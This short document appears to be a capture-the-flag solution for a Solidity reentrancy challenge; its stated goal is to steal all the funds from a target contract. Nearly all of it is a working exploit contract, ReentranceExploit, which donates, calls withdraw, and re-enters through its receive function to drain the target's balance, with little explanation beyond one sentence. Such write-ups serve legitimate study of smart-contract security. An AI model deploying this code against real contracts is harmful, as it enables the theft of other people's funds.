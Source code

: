 # Answer

Goal: Steal all the funds from the contract.

## 1. Stealing

The contract is vulnerable to a reentrancy attack. The following contract exploits it by creating a call loop through the payable receive function.

```solidity
contract ReentranceExploit {
    Reentrance r;
    uint256 depositAmount;

    // Don't forget to fund the contract during deployment
    // The amount ideally should be equal to the target contracts
    constructor(address payable targetAddr) public payable {
        r = Reentrance(targetAddr);
        depositAmount = msg.value;
    }

    function exploit() external {
        r.donate{value: depositAmount}(address(this));
        r.withdraw(depositAmount);
    }

    receive() external payable {
        r.withdraw(address(r).balance < depositAmount ? address(r).balance : depositAmount);
    }
}
```
